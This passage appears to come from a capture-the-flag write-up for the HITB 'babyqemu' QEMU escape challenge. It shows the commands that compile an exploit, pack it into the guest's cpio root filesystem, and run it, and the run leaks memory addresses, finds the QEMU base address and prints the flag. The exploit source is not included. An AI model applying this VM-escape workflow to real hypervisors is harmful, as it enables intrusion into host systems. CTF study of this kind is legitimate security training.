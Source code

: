 {% highlight bash %}
[babyqemu] gcc      -static -s -Os -o exploit exploit.c 
[babyqemu] musl-gcc -static -s -Os -o exploit-min exploit.c
[babyqemu] ls -la exploit*
-rwxr-xr-x 1 vagrant vagrant 778488 Nov 24 03:10 exploit
-rwxr-xr-x 1 vagrant vagrant  26112 Nov 24 03:10 exploit-min
-rw-r--r-- 1 vagrant vagrant   3726 Nov 24 03:08 exploit.c
{% endhighlight %}

To deliver the exploit locally we only need to append the file to the file system (the cpio archive).

{% highlight bash %}
[babyqemu] echo exploit-min | cpio -A -H newc -ov -F rootfs.cpio
exploit-min
52 blocks
{% endhighlight %}

{% highlight plain %}
Welcome to HITB
HITB login: root
# /exploit-min
va: 0x7f3657298000
pa: 0x20ef000
QEMU ELF BASE: 0x55a7d4645000
Copying command
# flagflagflag===FLAGFLAGFLAG

#
{% endhighlight %}